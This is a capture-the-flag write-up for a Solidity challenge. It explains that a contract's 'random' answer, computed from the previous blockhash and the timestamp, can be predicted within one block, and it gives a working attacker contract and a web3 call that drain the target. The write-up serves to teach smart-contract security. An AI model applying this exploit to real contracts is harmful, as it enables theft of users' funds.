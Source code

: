 # 06. Guess the new number

The number is now generated on-demand when a guess is made.

## Target contract

```solidity
pragma solidity ^0.4.21;

contract GuessTheNewNumberChallenge {
    function GuessTheNewNumberChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function guess(uint8 n) public payable {
        require(msg.value == 1 ether);
        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));

        if (n == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

## Vulnerability

The important thing to note here is that even though the answer is computed when a guess is made, it's not random. `uint8(keccak256(block.blockhash(block.number - 1), now));` will return the same value for every transaction belonging to the same block. So we need to make the computation on chain for that value and send it to `guess` which will compute exactly the same result and pass the challenge.

The syntax is adapted for solidity > 0.8.0 but has the exact same effect.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma abicoder v1;

interface IChallenge {
    function guess(uint8) external payable;
    function isComplete() external view returns (bool);
}

contract Attacker {

    address owner;
    IChallenge targetContract;

    constructor(IChallenge _targetContract) {
        targetContract = _targetContract;
        owner = msg.sender;
    }

    function attack() public payable {
        require(msg.value == 1 ether, "send 1 ETH");
        uint8 answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));
        targetContract.guess{value: msg.value}(answer);
        require(targetContract.isComplete(), "Wrong answer");
        msg.sender.call{value: address(this).balance}("");
    }

    receive() external payable {}
}
```

You can deploy this contract on Remix for example and simply call `attack` with 1 ETH. Alternatively, you could do that from nodejs :

```js
// Set this variable to the address of the contract you just deployed
const contract = "0xA357a9c002f4772DfeE6B169e84F0Cfd59FC1DBE";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "attack",
    type: "function",
    inputs: [],
  },
  []
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: contract,
  data: data,
  value: web3.utils.toWei("1", "ether"),
});
```

You can now submit the challenge !
